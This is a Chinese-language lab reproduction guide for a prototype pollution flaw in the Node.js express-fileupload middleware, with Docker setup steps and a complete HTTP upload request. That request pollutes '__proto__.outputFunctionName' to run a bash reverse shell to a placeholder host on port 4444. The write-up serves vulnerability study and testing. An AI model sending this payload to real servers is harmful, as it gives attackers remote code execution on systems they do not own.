# NodeJS expresss-fileupload模块原型链污染漏洞（CVE-2022-7699）

## 漏洞原理

`express-fileupload`是用来处理上传文件的中间件，在`1.1.7-alpha.4`及以前的版本存在原型链污染漏洞，利用该漏洞可以造成远程代码执行。

参考链接：

- https://blog.p6.is/Real-World-JS-1/
- https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html

## 环境搭建

编译及运行环境：

```bash
docker-compose build
docker-compose up -d
```

## 漏洞复现

成功运行后，访问`http://your-ip:3000/`即可查看。

![img](1.png)

首先在本机开启端口监听，之后发送如下数据包，即可成功反弹shell。

```text
POST /upload HTTP/1.1
Host: Host: your-ip:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
Content-Length: 306
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypDa6OHB96f0GI9ze

------WebKitFormBoundarypDa6OHB96f0GI9ze
Content-Disposition: form-data; name="__proto__.outputFunctionName"

x;process.mainModule.require('child_process').exec('bash -c "bash -i &> /dev/tcp/your-ip/4444 0>&1"');delete Object.prototype['outputFunctionName'];x
------WebKitFormBoundarypDa6OHB96f0GI9ze--
```

PS：发送攻击后，会污染整个程序的原型链。之后正常的访问页面也会有影响，除非重启整个程序。所以需要删除污染的原型。
